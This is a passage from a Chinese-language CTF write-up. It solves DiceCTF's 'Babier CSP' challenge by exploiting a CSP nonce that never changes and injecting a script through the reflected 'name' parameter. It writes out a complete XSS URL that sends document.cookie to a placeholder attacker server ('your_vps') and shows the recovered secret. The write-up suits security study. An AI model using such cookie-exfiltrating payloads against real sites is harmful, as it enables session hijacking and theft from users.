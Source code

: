 ```

app.listen(port, () =&gt; `{`
  console.log(`Example app listening at http://localhost:$`{`port`}``)
`}`)
```

### <a class="reference-link" name="Solution"></a>Solution

如上我们可以看到 CSP 设置的比较严格，但是对于 nonce ，只有在一开始的时候随机初始化了一次: `const NONCE = crypto.randomBytes(16).toString('base64');` ，所以当运行的时候，nonce 不会改变。

所以我们可以直接查看页面的 nonce ，就可以直接得到 nonce

```
&lt;html&gt;


&lt;a href='#' id=elem&gt;View Fruit&lt;/a&gt;

&lt;script nonce=g+ojjmb9xLfE+3j9PsP/Ig==&gt;
elem.onclick = () =&gt; `{`
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
`}`
&lt;/script&gt;

&lt;/html&gt;
```

而且注意到输入参数 name 会直接显示到 h1 标签当中，所以我们可以直接插入一个 script 标签即可执行 Javascript 代码了，这里注意一下用 url 编码把加号编码一下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01b7cbb76cb23ada3d.png)

然后用 vps 接一下 cookie 就行了

```
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce%3d%22g%2bojjmb9xLfE%2b3j9PsP/Ig==%22%3Ewindow.location=%22http://your_vps/?a=%22%2bencodeURIComponent(document.cookie);%3C/script%3E

//secret=4b36b1b8e47f761263796b1defd80745
```

直接访问该 url ，可以拿到 flag

[![](https://p0.ssl.qhimg.com/t016a02a322d6a03cb5.png)](https://p0.ssl.qhimg.com/t016a02a322d6a03cb5.png)

PS： 虽然这里说可以尝试 Adult CSP ，但是它竟然是个 Pwn 题…我就不去不自量力了。



## Missing Flavortext

### <a class="reference-link" name="Description"></a>Description
